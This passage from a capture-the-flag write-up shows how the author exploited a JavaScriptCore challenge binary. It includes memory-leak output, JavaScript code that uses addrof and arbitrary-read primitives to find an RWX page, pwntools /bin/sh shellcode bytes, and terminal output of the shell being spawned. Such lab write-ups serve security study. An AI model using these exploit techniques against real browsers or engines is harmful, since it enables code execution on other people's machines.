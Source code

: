 ```python
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x8 —▸ 0x555555572980 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x10 —▸ 0x55555556c630 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x18 —▸ 0x55555556c4c0 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x20 —▸ 0x555555573100 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x28 —▸ 0x55555556ce10 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x30 —▸ 0x55555556cb10 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc
0x7fffb34e5f00+0x28 —▸ 0x7ffff38b1000+0x0 —▸ 0x55555557a718+0x38 —▸ 0x555555571bc0 /home/cave/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn/jsc

...
```

Now we note these offsets, and we can leak the RWX:
```javascript
// // # +0x18, +0x8, +0x10,
addrFunc = b_addrof(func) + 0x18
print("Now I am going to read from: " + hex(addrFunc))
read_val = f2i(readmem(i2f(addrFunc)))
print("And I read: " + hex(read_val))

print("Now I am going to read from: " + hex(read_val + 0x8))
read_val = f2i(readmem(i2f(read_val + 0x8)))
print("And I read: " + hex(read_val))

print("Now I am going to read from: " + hex(read_val + 0x20))
rwx = f2i(readmem(i2f(read_val + 0x20)))
print("[***] leaked RWX: " + hex(rwx))
```

And we just use pwntools to generate some quick and dirty shellcode:
```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm(pwnlib.shellcraft.amd64.linux.sh())
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
```

Now because of this whole thing with how JavaScript handles integers, we need to add 0x10000 to what we're writing. Now my exploit doesn't work every time, and I suspect it's because of some garbage collection, or maybe the offsets from the leakfind sometimes differ. Anyhow:
```
cave@townie:~/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn$ ./jsc poc.js
Now I am going to read from: 0x7fe624df1698
And I read: 0x7fe624de5f00
Now I am going to read from: 0x7fe624de5f08
And I read: 0x7fe665116000
Now I am going to read from: 0x7fe665116020
[***] leaked RWX: 0x7fe625100b5c
Segmentation fault (core dumped)
cave@townie:~/CTF/fe-ctf/finals/my-first-browserpwn/my-first-browserpwn$ ./jsc poc.js
Now I am going to read from: 0x7ff28c4f1698
And I read: 0x7ff28c4e5f00
Now I am going to read from: 0x7ff28c4e5f08
And I read: 0x7ff2cc82d000
Now I am going to read from: 0x7ff2cc82d020
[***] leaked RWX: 0x7ff2cc7f95bc
GG Chall Done
$ w
```